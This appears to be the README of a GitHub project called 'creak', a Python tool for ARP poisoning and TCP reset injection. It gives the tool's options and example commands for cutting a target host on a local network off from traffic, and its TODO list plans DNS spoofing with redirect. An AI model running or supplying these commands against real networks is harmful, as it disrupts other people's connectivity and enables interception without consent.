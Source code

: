 # creak

Deny navigation and download capabilities of a target host in the local network
performing an ARP poison attack and sending reset TCP packets to every request
made to the router

## Options

```
Usage: creak.py [options] dev

Options:
  -h, --help           show this help message and exit
  -0, --spoof          Spoof mode, generate a fake MAC address to be used
                       during attack
  -m MACADDR           Mac address
  -s SOURCE            Source ip address (e.g. a class C address like
                       192.168.1.150) usually the router address
  -t TARGET            Target ip address (e.g. a class C address like
                       192.168.1.150)
  -p PORT              Target port to shutdown
  -v, --verbose        Verbose output mode
  -d, --dotted         Dotted output mode
```
## Example

Most basic usage:
Deny all traffic to the target host

``` python creak.py -t 192.168.1.30 wlan0 ```

Set a different gateway:

``` python creak.py -s 192.168.1.2 -t 192.168.1.30 wlan0 ```

Set a different mac address for the device:

``` python creak.py -m 00:11:22:33:44:55 -t 192.168.1.30 wlan0 ```

Spoof mac address generating a fake one:

``` python creak.py -0 -t 192.168.1.30 wlan0 ```

## TODO

- Multiple hosts denying
- DNS spoofing with redirect
- Scan mode
